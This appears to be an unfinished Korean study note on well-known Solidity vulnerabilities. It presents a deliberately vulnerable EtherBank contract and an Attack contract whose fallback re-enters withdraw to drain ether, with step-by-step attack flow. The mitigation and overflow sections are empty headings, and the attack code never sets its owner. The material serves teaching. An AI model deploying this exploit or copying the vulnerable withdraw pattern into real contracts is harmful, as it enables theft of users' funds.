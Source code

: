 # 2. Ethereum 혹은 Solidity의 잘 알려진 취약점 설명, 해당 취약점을 가진 컨트랙트 구현 및 공격 (3개 이상)

<br>

## 1) Re-Entrancy

### (1) 취약점 설명

`re-entrancy` 공격은 어떤 컨트랙트가 있을 때, 해당 컨트랙트의 특정 함수를 `recursive`하게 반복적으로 재호출하도록 만들어 공격자 컨트랙트에게 ether를 연속적으로 전송하도록 만드는 공격이다. 이 때 사용되는 것은 공격 컨트랙트의 `fallback` 함수인데, `fallback` 함수는 컨트랙트에게 데이터가 없는 plain ether가 전달되었을 때, 또는 전달된 method id와 매칭되는 함수가 없을 경우 실행되는 함수이다.

공격 컨트랙트의 `fallback` 함수 안에 취약점을 가진 컨트랙트의 함수를 호출하는 코드를 작성한다. 이 때 취약점을 가진 컨트랙트의 함수 내부에는 `외부 주소(external address)`에게 ether를 전송하는 코드가 포함되어 있다.

기본적인 공격 루틴은 다음과 같다.

1. 공격 컨트랙트는 해당 취약한 컨트랙트의 함수를 호출한다.
2. 호출된 컨트랙트에서 공격 컨트랙트에게 ether를 전송한다.
3. 공격 컨트랙트의 `fallback` 함수가 실행된다.
4. 공격 컨트랙트의 `fallback` 함수에서 다시 취약한 함수를 호출하여 공격대상 컨트랙트에 재진입(`re-enter`)한다.
5. 2~4의 과정이 반복된다.
6. 공격 컨트랙트는 조건문에서 취약한 컨트랙트의 잔액을 확인하여 잔액이 충분하지 않으면 `re-entrancy` 공격을 중단한다.

<br/>

### (2) 공격 컨트랙트 예제

#### EtherBank.sol

```scala
pragma solidity ^0.4.8;

contract EtherBank {
  mapping(address => uint256) public balances;
  
  function deposit() public payable {
      balances[msg.sender] += msg.value;
  }
  
  function withdraw(uint256 _weiToWithdraw) public {
      require(balances[msg.sender] >= _weiToWithdraw);
      require(msg.sender.call.value(_weiToWithdraw)());
      balances[msg.sender] -= _weiToWithdraw;
  }
}
```


#### Attack.sol

```scala
pragma solidity ^0.4.8;

import "./EtherBank.sol";

contract Attack {
  EtherBank public etherBank;
  address private owner;
  
  constructor(address _etherBankAddress, address _owner) {
    etherBank = EtherBank(_etherBankAddress);
  }
  
  function startAttack() public payable {
    // doposit ether to EtherBank.
    etherBank.deposit.value(1 ether)();
    // withdraw ether from EtherBank.
    etherBank.withdraw(1 ether);
  }
  
  function collectEther() public {
    // the attacker collects the ether.
    require(msg.sender == owner);
    msg.sender.transfer(this.balance);
  }
  
  function () payable {
    if (etherBank.balance > 1 ether) {
        etherBank.withdraw(1 ether);
    }
  }
}
```

<br/>

1. 공격자는 `Attack` 컨트랙트를 배포하면서 공격대상이 되는 `EtherBank` 컨트랙트의 주소와 나중에 모아진 ether를 회수할 owner 주소를 설정한다.
2. 공격자는 `Attack` 컨트랙트의 `startAttack()` 함수를 호출한다. 
3. `startAttack()` 함수는 `EtherBank` 컨트랙트의 `deposit()` 함수를 호출하며 1 ether를 전송한다.
4. `EtherBank` 컨트랙트의 `deposit()` 함수는 `Attack` 컨트랙트의 balance를 증가시킨다.
5. `startAttack()` 함수는 곧 바로 `EtherBank` 컨트랙트의 `withdraw()` 함수를 호출하여 1 ether 출금을 요청한다.
6. `EtherBank` 컨트랙트의 `withdraw()` 함수는 자신을 호출한 `Attack` 컨트랙트의 balance가 충분한 것을 검사한 후에 `Attack` 컨트랙트에게 1 ether를 전송한다.
7. `Attack` 컨트랙트의 `fallback` 함수가 호출된다.
8. `fallback` 함수는 `EtherBank`의 balance를 검사한 후에 다시 `withdraw()` 함수를 호출하여 재진입(`re-enter`)한다.
9. 6~8번 과정이 반복된다.
10. `fallback` 함수에서 `EtherBank`의 balance가 충분하지 않을 경우 함수 호출을 중단한다.
11. 공격자는 `collectEther()` 함수를 호출하여 모아진 ether를 출금한다.

<br/>

### (3) 취약점 해결방법

<br/>

<br/>

## 2) Overflow / Underflow

### (1) 취약점 설명

<br/>

### (2) 공격 컨트랙트 예제

<br/>

### (3) 취약점 해결방법

<br/>
